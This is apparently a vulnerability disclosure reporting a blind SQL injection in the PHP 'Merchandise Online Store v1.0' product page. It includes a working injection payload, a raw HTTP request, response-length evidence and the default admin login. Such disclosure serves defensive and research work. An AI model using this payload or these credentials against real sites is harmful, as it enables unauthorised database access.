# Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/?p=products&c=

Vulnerability location: /vloggers_merch/?p=products&c=,id

[+] Payload: /vloggers_merch/?p=products&c=c81e728d9d4c2f636f067f89cc14862c%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/?p=products&c=c81e728d9d4c2f636f067f89cc14862c%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 18755
![image](https://user-images.githubusercontent.com/54017627/166902399-2769cb13-a773-42e7-a052-3f70113900e9.png)

![image](https://user-images.githubusercontent.com/54017627/166902298-64dd8b06-1a14-4008-9521-19cdfdccd019.png)

When length (database ()) = 17, Content-Length: 24774
![image](https://user-images.githubusercontent.com/54017627/166902342-419e3536-bf53-4bda-813b-ed1b27da12d7.png)

![image](https://user-images.githubusercontent.com/54017627/166902240-1393f17b-3a99-40f3-b0dd-e36699824ec8.png)
